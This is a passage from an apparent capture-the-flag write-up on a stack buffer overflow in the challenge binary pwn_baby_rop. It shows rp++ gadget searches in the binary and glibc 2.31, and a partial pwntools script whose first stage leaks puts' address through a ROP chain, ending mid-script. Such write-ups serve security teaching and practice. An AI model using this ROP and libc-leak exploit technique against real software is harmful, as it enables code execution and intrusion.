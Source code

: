 As you can see, there are 3 possible addresses which will do the job, each with different contraints. I chose to use the last one, but the others might also work. From the site listed above, we know puts' offset is  	0x0875a0, so we can calculate the address of this gadget. However, we still need to make sure the contraints are met.

## Finding More Gadgets

First, RSI should be null or point to an address that has a value of 0. This gadget can be easily found using rp++:

{% highlight auto %}
$ rp-lin-x64 -f pwn_baby_rop -r 2 --unique | grep 'pop rsi'
0x00401661: pop rsi ; pop r15 ; ret  ;  (1 found)
{% endhighlight %}

The next constraint is that rdx should be null. However, the binary does not contain any gadget that assigns rdx to a value on the stack. Luckily for us, LIBC does:

{% highlight bash %}
$ rp-lin-x64 -f libc6_2.31-0ubuntu9_amd64.so -r 2 --unique | grep 'pop rdx'
0x0015509c: mov eax, dword [rbp+0x08] ; pop rdx ; call qword [rax+0x20] ;  (1 found)
0x0015509b: mov rax, qword [rbp+0x08] ; pop rdx ; call qword [rax+0x20] ;  (1 found)
0x00182526: pop rdx ; add eax, 0x83480000 ; retn 0x4910 ;  (1 found)
0x00117960: pop rdx ; add rsp, 0x38 ; ret  ;  (2 found)
0x0015509f: pop rdx ; call qword [rax+0x20] ;  (1 found)
0x00135112: pop rdx ; fdivr st0, st7 ; jmp qword [rsi+0x2E] ;  (1 found)
0x00040a82: pop rdx ; idiv bh ; jmp qword [rsi+0x2E] ;  (1 found)
0x0011cc5b: pop rdx ; or byte [rcx-0x0A], al ; ret  ;  (1 found)
0x0011c1e1: pop rdx ; pop r12 ; ret  ;  (3 found)
0x001626d6: pop rdx ; pop rbx ; ret  ;  (4 found)
0x001028d2: pop rdx ; sub dh, dl ; jmp qword [rbx+rcx*4+0x04] ;  (1 found)
{% endhighlight %}

I am going to use 'pop rdx ; pop r12 ; ret  ;', but (again) the other gadgets might also work (I actually used 'pop rdx ; pop rbx ; ret  ;' during the CTF). The following script uses the gadgets we've just found:

{% highlight bash %}
from pwn import *

env = {"LD_PRELOAD": "./libc6_2.31-0ubuntu9_amd64.so"}
io = process("./pwn_baby_rop", env=env)

io.recvuntil("black magic.\n")

# gdb.attach(io)


# 1st stage
main = 0x40145C
puts = 0x401030
puts_got = 0x404018
pop_rdi = 0x00401663

payload = b""
payload += b"A" * 264
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts)
payload += p64(main)

io.sendline(payload)

puts_addr = io.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))